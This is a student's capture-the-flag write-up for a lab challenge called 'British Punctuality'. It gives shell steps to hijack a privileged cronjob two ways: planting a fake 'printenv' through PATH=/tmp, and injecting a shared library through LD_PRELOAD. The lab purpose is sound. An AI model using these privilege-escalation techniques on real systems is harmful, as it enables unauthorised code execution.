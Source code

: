 # FSI-CTFS: British Punctuality
 
#### Exploits created by José Miguel Isidro aka [zmiguel2011](https://github.com/zmiguel2011)
## DISCAIMER:
> This exploit in British Punctuality's CTF in 22/23 due to an honest mistake by the teacher who created the CTF
> Although this wasn't the intended way to solve the CTF, this is how I managed to solve it. Nevertheless, the intended way to solving is also included in this repository and will explained [here](#intended-way-to-solve-the-ctf-exploitc)).

### Unintended Way to Solve the CTF (exploit.c)
> In [my_script.sh](../FSI-CTFS/British%20Punctuality/my_script.sh) , printenv is vulnerable because of the missing absolute path. It should've been /bin/printenv. This enabled us to write arbitrary code in a 'fake' printenv program created by the user.

> You would have to compile this [program](../FSI-CTFS/British%20Punctuality/exploit.c) with ggc and output the file to "printenv" in the /tmp folder.
```bash
cd /tmp
gcc -o printenv exploit.c
```

> Create a new /tmp/env file with:

```bash
PATH=/tmp
```

> Let the cronjob run and execute your printenv program and retrieve the flag from the last_log text file with:
```bash
cat /tmp/last_log
```


### Intended Way to Solve the CTF (exploit.c)

> Compile this [program](../FSI-CTFS/British%20Punctuality/exploit2.c) with ggc and create shared object in the /tmp folder.
```bash
gcc -c -Wall -Werror -fpic exploit.c
gcc -shared -o myexploit.so exploit.o
```

> Create a new /tmp/env file with:

```bash
PATH=/tmp
LD_PRELOAD=/tmp/myexploit.so
```

> For reference, If you haven't heard about the [LD_PRELOAD](https://www.google.com/search?q=LD_PRELOAD+trick) environment variable, you should read about it for better understading of the step above.

> Let the cronjob run and execute the reader program which will then print the flag because the 'puts' function was overwritten. Retrieve the flag from the last_log text file with:
```bash
cat /tmp/last_log
```